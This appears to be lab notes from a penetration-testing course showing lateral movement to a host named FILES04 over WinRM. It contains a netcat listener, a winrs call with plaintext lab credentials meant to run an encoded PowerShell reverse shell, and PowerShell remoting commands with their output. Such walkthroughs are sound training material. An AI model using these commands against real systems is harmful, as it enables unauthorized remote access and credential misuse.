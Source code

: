 # The output confirms that we have indeed executed the commands remotely on FILES04.

# To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier.

nc -lvnp 443
winrs -r:files04 -u:jen -p:Nexus123! "# Paste the encoded pwsh-revshell"

PS C:\Users\jen> whoami
corp\jen
PS C:\Users\jen> hostname
FILES04

# PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.195.73 -Credential $credential
```
...
  1 WinRM1          192.168.195.73  RemoteMachine   Opened        Microsoft.PowerShell     Available
...

# To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID.
PS C:\Users\jeff> Enter-PSSession 1
[192.168.195.73]: PS C:\Users\jen\Documents> whoami
corp\jen
[192.168.195.73]: PS C:\Users\jen\Documents> hostname
FILES04

